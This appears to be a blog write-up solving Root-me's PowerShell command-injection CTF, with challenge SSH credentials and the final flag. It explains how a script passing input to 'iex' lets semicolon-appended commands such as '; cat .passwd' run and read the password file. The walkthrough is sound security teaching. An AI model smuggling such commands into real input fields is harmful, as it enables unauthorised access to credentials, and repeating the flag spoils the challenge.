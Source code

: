 ```yaml
---
title: Powershell - Command Injection - root-me.org
published: true
---
```


# [](#intro)Introduction

In this write-up, we're taking a different route by tackling a Windows machine CTF. This CTF is hosted at [Root-me](https://www.root-me.org) in the App Script tab. It is also ranked as easy! Let's see what we have.

# [](#level-description)Challenge description

The 'Statement' says:

> Statement

> Recover the database’s password.

A cryptic task, indeed! It seems we need to ssh into the machine to take a look and understand what this CTF is about. However, before doing so, let's brush up on Powershell and command injection to sharpen our strategic approach mindset.

To ssh into the machine, we run the command:

`ssh -p 2225 app-script-ch18@challenge05.root-me.org`

with the password `app-script-ch18`.

## [](#mindset-step1)Step 1 - Understanding basic concepts

### Powershell 101

Firstly, let's discuss Powershell. Powershell serves as a Windows shell, akin to how Bash functions in Linux (or MacOS). Succeeding the older 'CMD' shell, Powershell can be seen as an enhanced version of CMD, offering a more robust feature set.

In Powershell, numerous commands are similar to those in CMD, but it also introduces a plethora of new ones exclusive to it. For example, commands like `ls`, `cat`, `mkdir` and `pwd` are integrated from the Bash into Powershell. 

For a simplistic introduction, this should suffice. However, if you are interested in how to level you Powershell game up, check it out [this](https://github.com/lllife-uncat/powershell-101/blob/master/PG_PowerShell_XWIPSCRE01_0.pdf) github repository. It contains a PDF full of insights on how to succeed using this shell!

### Command injection

Command injection is a cyber attack that involves executing arbitrary commands on a host operating system (OS). Put in simple terms, a command injection vulnerability is one that the attacker disrupts the normal flow of a script, injecting arbitrary - usually not intended by the developer - code. This form of attack is distinct from other types of code injection, as it specifically targets command execution within an operating system's environment. 

For a good reference, check it out the OWASP command injection [page](https://owasp.org/www-community/attacks/Command_Injection). It demonstrates how this usually happens within a Unix environment.

## [](#mindset-step2)Step 2 - Understanding the problem

Now that we've grasped the basic concepts that this challenge is involved with, let's ssh into the machine and take a look around. Remember, this is a Powershell machine, so be comfortable working with Windows shell commands. 

Here's the greeting we receive upon sshing:

```bash
ssh -p 2225 app-script-ch18@challenge05.root-me.org
      _           _ _                        ___  ____  
  ___| |__   __ _| | | ___ _ __   __ _  ___ / _ \| ___| 
 / __| '_ \ / _` | | |/ _ \ '_ \ / _` |/ _ \ | | |___ \ 
| (__| | | | (_| | | |  __/ | | | (_| |  __/ |_| |___) |
 \___|_| |_|\__,_|_|_|\___|_| |_|\__, |\___|\___/|____/ 
                                 |___/ root-me.org      

app-script-ch18@challenge05.root-me.org's password: 
Table to dump:
```

This interface suggests that we are interacting with a command line program or script, rather than being directly in the shell environment. Let's type any command to see what happens:

```bash
Table to dump:
> ls
Connect to the database With the secure Password: 76492d1116743f0423413b16050a5345MgB8AGQ
ALwBSAFAAagBxADkAYwBOAHgAegAyAEQAcgB2AGEAbgAvAFUAbgBYAHcAPQA9AHwAYwA5ADIANQAxAGQAYwA0AGYA
NgAzAGYAZQA4AGIAOQA4ADYAZQA1AGUAOAA0ADIAMwA2ADAANQAwAGMAOQAzADcAMgAzADYAMAAzADgAMQAyADkAZ
QA4AGMAMQBiADAAYQA4ADAAMAAxAGMAMQA1AGYAMABjADcAOABhADAAZgBlADkAYgAwADgAYQAwAGMAOQBiAGMAZg
A1ADkANgAyADcANQBmAGEAOAAzAGIAMwA1ADcAZQAzADYAOQBjAGYA. Backup the table ls
Table to dump:
>
```

Alright, we are indeed inside a command line interface. We are not able to run Powershell commands, but since the problem says we have command injection, we might need to break this interface and access the shell. This is our goal!

### Context

This command line interface might be something like this, in powershell:

```powershell
Function Simulate-Interaction {
        while ($true) {
                Write-Host "Table to dump:"
                $input = Read-Host "> "

                Write-Host "Connect to the database With the secure Password: 76492d1116743f0423413b16050a5345MgB8AGQ
ALwBSAFAAagBxADkAYwBOAHgAegAyAEQAcgB2AGEAbgAvAFUAbgBYAHcAPQA9AHwAYwA5ADIANQAxAGQAYwA0AGYA
NgAzAGYAZQA4AGIAOQA4ADYAZQA1AGUAOAA0ADIAMwA2ADAANQAwAGMAOQAzADcAMgAzADYAMAAzADgAMQAyADkAZ
QA4AGMAMQBiADAAYQA4ADAAMAAxAGMAMQA1AGYAMABjADcAOABhADAAZgBlADkAYgAwADgAYQAwAGMAOQBiAGMAZg
A1ADkANgAyADcANQBmAGEAOAAzAGIAMwA1ADcAZQAzADYAOQBjAGYA. Backup the table $input"
        }
}

Simulate-Interaction
```

To simulate it, let's run a built-in PS shell inside our Linux environment:

```bash
PS /tmp/root-me> ./ps-ci.ps1
Table to dump:
> : test
Connect to the database With the secure Password: 76492d1116743f0423413b16050a5345MgB8AGQ
ALwBSAFAAagBxADkAYwBOAHgAegAyAEQAcgB2AGEAbgAvAFUAbgBYAHcAPQA9AHwAYwA5ADIANQAxAGQAYwA0AGYA
NgAzAGYAZQA4AGIAOQA4ADYAZQA1AGUAOAA0ADIAMwA2ADAANQAwAGMAOQAzADcAMgAzADYAMAAzADgAMQAyADkAZ
QA4AGMAMQBiADAAYQA4ADAAMAAxAGMAMQA1AGYAMABjADcAOABhADAAZgBlADkAYgAwADgAYQAwAGMAOQBiAGMAZg
A1ADkANgAyADcANQBmAGEAOAAzAGIAMwA1ADcAZQAzADYAOQBjAGYA. Backup the table test
```

Yep. That looks almost the same as the CTF. See, a command injection vulnerability happens when our `$input` variable breaks the `Write-Host` command and runs another on instead. In our code, however, that is not possible, as `Write-Host` is not prone to command injection. However, we can think that the script flow is similar to this one. To break out the string, we would use the `;` pipe in Powershell, which is the same as saying: hey PS, besides what you need to run, do also run the following command as well. Here's an example:

```bash
PS /tmp/root-me> whoami; ls
kaizen
cinjection  cinjection.c  ps  ps-ci.ps1
```


## [](#mindset-step3)Step 3 - Crafting the attack

We have basically crafted our attack in the last step. The idea here is to break the `$input` that the CTF Powershell script takes with a semi-colon `;` and pass a PS command afterwards. So, the initial attack would be: `; ls` for example.

## [](#mindset-step4)Step 4 - Solving!

Let's try it out:

```bash
Table to dump:
> ; ls
Connect to the database With the secure Password: 76492d1116743f0423413b16050a5345MgB8ADY
AbgBzADgAUQA4AG4AdwB3AGIAbgBNAFcAcgBYAE8AMgBWADkAQgB5AEEAPQA9AHwAYQA5ADcAZgAyAGIAOQA5ADIA
YQBkADIAYwA0ADQAYQA3AGYAMAAxADgAZgA2AGUAMgAzAGYAOQA0AGYAZQBmADkAOQBiADUAZQBkADAAZQAwAGUAO
AA3ADMAMAA1ADkAZQA0ADkAMAA0ADgANQA5ADIAZAA4ADQANgA2ADYAOQA0ADMAMQBlADMANQBjADEANAA0AGQAOQ
AyAGMAYgAyADQANAA2AGUAZAA2ADYANgA1ADYAMABhADYAYgAwADcA. Backup the table


    Directory: C:\cygwin64\challenge\app-script\ch18


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       12/12/2021   9:25 AM             43 .git
-a----       11/21/2021  11:34 AM            150 .key
-a----        4/20/2020  10:50 AM             18 .passwd
------       12/12/2021   9:50 AM            574 ._perms
------       11/21/2021  11:35 AM            348 ch18.ps1
```

Aha! As expected, we could break the input by passing the `;` pipe with another command. Out of curiosity, let's take a look at the `ch18.ps1` script by injecting `; cat ch18.ps1`:

```powershell
$key = Get-Content .key
$SecurePassword = Get-Content .passwd | ConvertTo-SecureString -AsPlainText -Force | Conv
ertFrom-SecureString -key $key

while($true) {
        Write-Host "Table to dump: "
        Write-Host -NoNewLine "> "
        $table=Read-Host

        iex "Write-Host Connect to the database With the secure Password: $SecurePassword
. Backup the table $table"
}
```

Amazing. It is using `iex` CMDlet, which is the short for the `Invoke-Expression` method used for executing code. That is why the subtitle of this CTF is "There’s UI, UX and IEX" xD

To solve this problem, we simply pass the command `; cat .passwd`:

```bash
Table to dump:
> ; cat .passwd
Connect to the database With the secure Password: 76492d1116743f0423413b16050a5345MgB8ADY
AbgBzADgAUQA4AG4AdwB3AGIAbgBNAFcAcgBYAE8AMgBWADkAQgB5AEEAPQA9AHwAYQA5ADcAZgAyAGIAOQA5ADIA
YQBkADIAYwA0ADQAYQA3AGYAMAAxADgAZgA2AGUAMgAzAGYAOQA0AGYAZQBmADkAOQBiADUAZQBkADAAZQAwAGUAO
AA3ADMAMAA1ADkAZQA0ADkAMAA0ADgANQA5ADIAZAA4ADQANgA2ADYAOQA0ADMAMQBlADMANQBjADEANAA0AGQAOQ
AyAGMAYgAyADQANAA2AGUAZAA2ADYANgA1ADYAMABhADYAYgAwADcA. Backup the table
SecureIEXpassword
```

And there we have it! The flag for this CTF is `SecureIEXpassword`.

# [](#conclusions)Conclusion

In this CTF, we learned a bit more about Powershell and command injection. The task was straightforward – to recover a database password within a Windows environment.

We first revised some Powershell concepts, as well as the definition of command injection attacks. The CTF setup led us to leverage the semicolon `;` in Powershell to append and execute additional commands. By applying this technique, we successfully injected command within the environment.

As we can see, this is a simple Powershell CTF. By keeping our approach mindset, it was not difficult to find a way out to catch this flag! 

Thanks for sticking 'til the end. I hope you learned something new today! And remember, always do your **research!**

<a href="/">Go back</a>







